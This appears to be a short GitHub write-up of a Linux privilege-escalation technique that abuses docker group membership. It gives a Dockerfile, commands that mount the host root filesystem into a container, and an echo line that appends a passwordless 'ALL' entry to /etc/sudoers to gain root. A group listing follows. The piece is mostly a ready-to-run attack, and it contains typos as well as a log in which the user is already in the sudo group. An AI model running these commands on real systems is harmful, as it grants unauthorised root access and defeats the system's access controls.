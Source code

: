 assume that we have user that has not got any permissions in "etc/sudoers" file,
but suddenly have access for docker group ```(set-up: sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker).```

# escalation

mkdir pesc
cd pesc
nano Dockerfile
```
FROM debian:wheezy

ENV WORKDIR /pesc

RUN mkdir -p $WORKDIR

VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```
docker build -t pesc . 
docker run -v /:/pesc pesc  # put root a file system into workdir, env variable of image with the same name
docker run -v /:/pesc -it pesc /bin/bash

since docker is running with root privilege inside entire file system, originally
hold by my machine, so we can go ahead and work with (etc/sudoers) on original rarget.
because we can edit this, sadly we dont have vim or any editor on docker container, we can actually echo into it
```
echo "<user> ALL=(ALL) NOPASSWD: ALL" >> /pesc/etc/sudoers
```

now in fact we are treated as a root.

# set-up enviroment

### sudo usermod -aG <user> <group> ex. sudo suermod -aG BillyGLW docker)

### getent group log:

```
$ getent group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,BillyGLW
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:BillyGLW
floppy:x:25:
tape:x:26:
sudo:x:27:BillyGLW
audio:x:29:
dip:x:30:BillyGLW
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:BillyGLW
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
input:x:104:
crontab:x:105:
syslog:x:106:
messagebus:x:107:
lxd:x:108:BillyGLW
mlocate:x:109:
uuidd:x:110:
ssh:x:111:
landscape:x:112:
BillyGLW:x:1000:
netdev:x:113:
rdma:x:114:
sambashare:x:115:BillyGLW
BillyGLW:x:1001:
docker:x:116:BillyGLW
```
